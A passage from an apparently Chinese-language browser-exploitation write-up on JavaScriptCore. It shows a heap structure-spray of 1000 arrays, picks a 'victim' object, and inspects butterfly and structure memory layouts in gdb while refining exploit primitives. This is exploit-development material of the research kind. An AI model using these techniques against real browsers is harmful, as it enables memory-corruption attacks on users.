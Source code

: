 上面实现的原语可以更加精简，我们来研究一下

先Spray一堆数组对象，并且指定其中下标为`510`的对象为`victim`
```javascript
var structure_spray = [];
for(var i = 0; i < 1000; i++) {
    var array = [13.37];
    array.a = 13.37;
    array['p' + i] = 13.37;
    structure_spray.push(array);
}
print(describe(structure_spray));
// Object: 0x7fffaf4b4340 with butterfly 0x7fe0001fa070 (Structure 0x7fffaf4f2ae0:[Array, {}, ArrayWithContiguous, Proto:0x7fffaf4c80a0]), StructureID: 99

var victim = structure_spray[510];
print(describe(victim));
// Object: 0x7fffaf4b6330 with butterfly 0x7fe0000ca128 (Structure 0x7fffae0e9110:[Array, {a:100, p510:101}, ArrayWithDouble, Proto:0x7fffaf4c80a0, Leaf]), StructureID: 4902
```

对象`structure_spray`用于存储分配的数组对象，每个数组对象用属性`p + i`区分，比如`i`为`510`的数组对象属性就是`p510`，对象`structure_spray`的butterfly为`0x00007fe0001fa070`，所以`0x00007fe0001fa068`指向它的长度
```shell
(gdb) x/8gx 0x7fffaf4b4340
0x7fffaf4b4340:	0x0108210900000063	0x00007fe0001fa070
0x7fffaf4b4350:	0x0108210700001128	0x00007fe0000e0058
0x7fffaf4b4360:	0x0108210700001129	0x00007fe0000e0088
0x7fffaf4b4370:	0x010821070000112a	0x00007fe0000e00b8
(gdb) x/8gx 0x00007fe0001fa060
0x7fe0001fa060:	0x00007fe0001fa001	0x000003ec000003e8
0x7fe0001fa070:	0x00007fffaf4b4350	0x00007fffaf4b4360
0x7fe0001fa080:	0x00007fffaf4b4370	0x00007fffaf4b4380
0x7fe0001fa090:	0x00007fffaf4b4390	0x00007fffaf4b43a0
```

查看第一个数组元素，它的butterfly为`0x00007fe0000e0058`
```shell
(gdb) x/8gx 0x00007fffaf4b4350
0x7fffaf4b4350:	0x0108210700001128	0x00007fe0000e0058
0x7fffaf4b4360:	0x0108210700001129	0x00007fe0000e0088
0x7fffaf4b4370:	0x010821070000112a	0x00007fe0000e00b8
0x7fffaf4b4380:	0x010821070000112b	0x00007fe0000e00e8
(gdb) x/8gx 0x00007fe0000e0058
0x7fe0000e0058:	0x402abd70a3d70a3d	0x0000000000000000
0x7fe0000e0068:	0x0000000000000000	0x402bbd70a3d70a3d
0x7fe0000e0078:	0x402bbd70a3d70a3d	0x0000000100000001
0x7fe0000e0088:	0x402abd70a3d70a3d	0x0000000000000000
```

其中我们指定的`victim`内存布局如下，butterfly左边是长度和其它属性
```shell
(gdb) x/8gx 0x7fffaf4b6330
0x7fffaf4b6330:	0x0108210700001326	0x00007fe0000ca128
0x7fffaf4b6340:	0x0108210700001327	0x00007fe0000ca158
0x7fffaf4b6350:	0x0108210700001328	0x00007fe0000ca188
0x7fffaf4b6360:	0x0108210700001329	0x00007fe0000ca1b8
(gdb) x/8gx 0x00007fe0000ca108
0x7fe0000ca108:	0x0000000000000000	0x402bbd70a3d70a3d
0x7fe0000ca118:	0x402bbd70a3d70a3d	0x0000000100000001
0x7fe0000ca128:	0x402abd70a3d70a3d	0x0000000000000000
0x7fe0000ca138:	0x0000000000000000	0x402bbd70a3d70a3d
```
